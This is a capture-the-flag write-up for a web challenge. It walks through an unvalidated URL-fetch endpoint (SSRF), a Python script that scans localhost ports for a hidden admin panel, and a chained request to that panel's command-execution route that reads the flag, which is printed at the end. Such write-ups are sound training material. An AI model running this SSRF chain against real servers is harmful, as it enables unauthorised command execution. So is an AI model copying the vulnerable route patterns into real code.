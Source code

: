![Pasted image 20250228190215](pictures/Pasted%20image%2020250228190215.png)

check .zip source code


### Identifying the SSRF Vulnerability

The vulnerability lies in the `/unfurl` functionality, which takes a URL as input and makes an HTTP request to that URL using `axios.get(url)`. Here is the relevant code:

```js
router.post('/unfurl', async (req, res) => {
    const { url } = req.body;

    if (!url) {
        return res.status(400).json({ error: 'No URL provided!' });
    }

    try {
        const response = await axios.get(url); // Vuln here
        const html = response.data;
        const $ = cheerio.load(html);

        const title = $('title').text() || 'No title found';
        const description = $('meta[name="description"]').attr('content') || 'No description found';

        res.json({ title, description, html, image });
    } catch (error) {
        console.error(`[ERROR] Failed to unfurl URL: ${error.message}`);
        res.status(404).json({ error: 'Failed to unfurl the URL.' });
    }
});
```

#### Issue

The service does not validate the URL provided by the user, allowing an attacker to specify a URL pointing to internal services (e.g., `http://127.0.0.1:PORT`). This constitutes an **SSRF** because the server makes requests to internal resources based on user input.

### 2. Discovering the Internal Admin Panel

The admin panel is hosted on a random port between 1024 and 4999. Here is the relevant code:

```js
function getRandomPort() {
    const MIN_PORT = 1024;
    const MAX_PORT = 4999;
    let port;
    do {
        port = Math.floor(Math.random() * (MAX_PORT - MIN_PORT + 1)) + MIN_PORT;
    } while (port === 5000);
    return port;
}

const adminPort = getRandomPort();
adminApp.listen(adminPort, '127.0.0.1', () => {
    console.log(`[INFO] Admin app running on http://127.0.0.1:${adminPort}`);
});
```

#### Issue

Although the admin panel is accessible only from `localhost` (`127.0.0.1`), the SSRF vulnerability allows bypassing this restriction. An attacker can use the `/unfurl` functionality to send requests to `http://127.0.0.1:PORT` and discover the port on which the admin panel is exposed.

### 3. Command Execution Functionality

The admin panel exposes a functionality to execute system commands (`/admin/execute`). Here is the relevant code:

```js
router.get('/execute', (req, res) => {
    const clientIp = req.ip;

    // ip address verif
    if (clientIp !== '127.0.0.1' && clientIp !== '::1') {
        console.warn(`[WARN] Unauthorized access attempt from ${clientIp}`);
        return res.status(403).send('Forbidden: Access is restricted to localhost.');
    }

    const cmd = req.query.cmd;

    if (!cmd) {
        return res.status(400).send('No command provided!');
    }

    exec(cmd, (error, stdout, stderr) => {
        if (error) {
            console.error(`[ERROR] Command execution failed: ${error.message}`);
            return res.status(500).send(`Error: ${error.message}`);
        }

        console.log(`[INFO] Command executed: ${cmd}`);
        res.send(`
            <h1>Command Output</h1>
            <pre>${stdout || stderr}</pre>
            <a href="/admin">Back to Admin Panel</a>
        `);
    });
});
```

#### Issue

The command execution functionality is supposed to be restricted to `localhost`, but the SSRF vulnerability allows bypassing this restriction. An attacker can exploit this functionality to execute arbitrary commands on the server.

---

### Exploiting the Vulnerability

#### Step 1: Discovering the Admin Panel Port

1. **Using SSRF to scan ports**:
    
    - The SSRF vulnerability allows sending requests to `http://127.0.0.1:PORT` via the `/unfurl` functionality.
        
    - The goal is to scan ports between 1024 and 4999 to find the one on which the admin panel is exposed.
        
2. **Scan script**:
    
    - I wrote a script to automate the port scan. For each port, the script sends a request to `http://127.0.0.1:PORT` via `/unfurl`.
        
    - If the response contains "Admin Panel," it means the port has been found.
        

```python
import requests

UNFURL_URL = 'http://challenge.ctf.games:31214/unfurl' # Your port on the instance

def test_port(port):
    target = f'http://127.0.0.1:{port}'
    data = {'url': target}
    try:
        response = requests.post(UNFURL_URL, json=data, timeout=1)
        if response.status_code == 200:
            html = response.json().get('html', '')
            if 'Admin Panel' in html:
                print(f"Admin panel found on port {port}!")
                return port
    except:
        pass
    return None
def find_admin_port():
    common_ports = [3000, 4000, 5000, 8080, 8000]
    for port in common_ports:
        result = test_port(port)
        if result:
            return result
    for port in range(1024, 5000):
        result = test_port(port)
        if result:
            return result
    
    return None
print("Scanning for admin panel...")
admin_port = find_admin_port()
if admin_port:
    print(f"Admin panel is running on port {admin_port}.")
else:
    print("fuck")
```

#### Step 2: Executing Arbitrary Commands

1. **Exploiting the `/execute` functionality**:
    - For example, to execute `ls`, I sent a request to `http://127.0.0.1:PORT/execute?cmd=ls`

![Pasted image 20250228191819](pictures/Pasted%20image%2020250228191819.png)

I sent a request to `http://127.0.0.1:PORT/execute?cmd=cat%20flag.txt`
%20 = 1 space

![Pasted image 20250228191757](pictures/Pasted%20image%2020250228191757.png)

```
flag{e1c96ccca8777b15bd0b0c7795d018ed}
```

